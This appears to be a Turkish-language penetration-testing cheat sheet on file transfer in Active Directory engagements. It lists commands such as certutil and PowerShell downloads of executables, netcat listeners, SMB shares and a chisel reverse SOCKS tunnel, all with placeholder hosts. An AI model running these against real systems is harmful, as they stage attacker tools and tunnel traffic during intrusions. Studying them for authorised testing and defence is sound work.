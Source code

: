 # Active Directory Pentest: Dosya Transferi Metodolojisi

Bu rehberde, Active Directory pentestinde dosya transferi aşamasında kullanılan tüm komutlar, yollar ve yöntemler detaylı bir şekilde açıklanmıştır. Rehber, Windows'tan Linux'a, Linux'tan Windows'a, Windows'tan Windows'a ve Linux'tan Linux'a dosya transferini kapsamaktadır.

---

## 1. Windows'tan Windows'a Dosya Transferi

### 1.1 PowerShell İle Dosya Transferi

#### Invoke-WebRequest
Dosyayı bir URL'den indirir.
```powershell
Invoke-WebRequest -Uri "http://hedef_ip/dosya.exe" -OutFile "C:\Users\Kullanici\Downloads\dosya.exe"
```

#### WebClient Kullanarak
Ağ üzerinden dosya indirme işlemi.
```powershell
$wc = New-Object System.Net.WebClient
$wc.DownloadFile("http://hedef_ip/dosya.exe", "C:\Users\Kullanici\Downloads\dosya.exe")
```

#### BITSAdmin Kullanarak
Arka planda dosya indirir.
```powershell
Start-BitsTransfer -Source "http://hedef_ip/dosya.exe" -Destination "C:\Users\Kullanici\Downloads\dosya.exe"
```

### 1.2 CMD ile Dosya Transferi

#### CertUtil
Dosya indirmek için kullanılır.
```cmd
certutil -urlcache -split -f "http://hedef_ip/dosya.exe" "C:\Users\Kullanici\Downloads\dosya.exe"
```

#### FTP
FTP üzerinden dosya transferi.
```cmd
ftp -n -s:komut_dosyasi.txt
```
`komut_dosyasi.txt` içeriği:
```
open hedef_ip
kullanici_adi
sifre
get dosya.exe
bye
```

#### SMB (net use)
Paylaşılan bir klasörden dosya çekmek için.
```cmd
net use Z: \\hedef_ip\paylasim /user:hedef_kullanici sifre
copy Z:\dosya.exe C:\Users\Kullanici\Downloads\
net use Z: /delete
```

---

## 2. Windows'tan Linux'a Dosya Transferi

### 2.1 PowerShell ile SCP Kullanımı

#### SCP İle Dosya Gönderme
```powershell
scp C:\Users\Kullanici\dosya.exe linux_kullanici@linux_ip:/hedef_dizin/
```

### 2.2 FTP Kullanarak
```cmd
ftp -n -s:komut_dosyasi.txt
```
`komut_dosyasi.txt` içeriği:
```
open linux_ip
kullanici_adi
sifre
put dosya.exe
bye
```

### 2.3 Python HTTP Server Kullanarak
Windows'ta bir HTTP sunucusu başlatıp dosya paylaşımı.
```cmd
python -m http.server 8080
```
Linux'tan dosyayı çekmek:
```bash
wget http://windows_ip:8080/dosya.exe
```

---

## 3. Linux'tan Windows'a Dosya Transferi

### 3.1 SMB Kullanımı

#### smbclient ile Paylaşılan Dizine Bağlanma
```bash
smbclient \\windows_ip\paylasim -U kullanici
```
Dizin içerisinden dosya indirme:
```bash
get dosya.exe
```

### 3.2 SCP Kullanarak Dosya Gönderme
```bash
scp dosya.exe windows_kullanici@windows_ip:C:\Hedef_Dizin\
```

### 3.3 Netcat Kullanarak
Linux üzerinde dosyayı paylaşma:
```bash
nc -lvp 4444 < dosya.exe
```
Windows üzerinde dosyayı alma:
```cmd
nc linux_ip 4444 > dosya.exe
```

---

## 4. Linux'tan Linux'a Dosya Transferi

### 4.1 SCP Kullanımı
```bash
scp dosya.txt kullanici@hedef_ip:/hedef_dizin/
```

### 4.2 Rsync Kullanımı
Verimli dosya senkronizasyonu.
```bash
rsync -avz dosya.txt kullanici@hedef_ip:/hedef_dizin/
```

### 4.3 Netcat Kullanarak
Gönderici tarafında:
```bash
nc -lvp 4444 < dosya.txt
```
Alıcı tarafında:
```bash
nc gonderici_ip 4444 > dosya.txt
```

### 4.4 Python HTTP Server Kullanarak
Gönderici tarafında HTTP sunucusu başlatma:
```bash
python3 -m http.server 8080
```
Alıcı tarafında dosyayı çekme:
```bash
wget http://gonderici_ip:8080/dosya.txt
```

---

## 5. Ek Araçlar ve Yöntemler

### 5.1 Chisel ile Tünelleme
Tünel oluşturup dosya transferi.
```bash
./chisel server -p 8000 --reverse
./chisel client windows_ip:8000 R:socks
```

### 5.2 Impacket Araçları
#### smbserver.py
Linux üzerinde SMB paylaşımı başlatma.
```bash
smbserver.py share /hedef_dizin
```
Windows'ta bağlanma:
```cmd
net use Z: \\linux_ip\share
copy Z:\dosya.exe C:\Users\Kullanici\Downloads\
net use Z: /delete
```

---

## Notlar
- Tüm komutlar test edilmiş ve çalıştırılmadan önce doğrulanmalıdır.
- Komutların çalışması için gerekli izinlerin sağlanması gerekir.
- Transfer edilen dosyaların şifrelenmiş olması önemlidir.
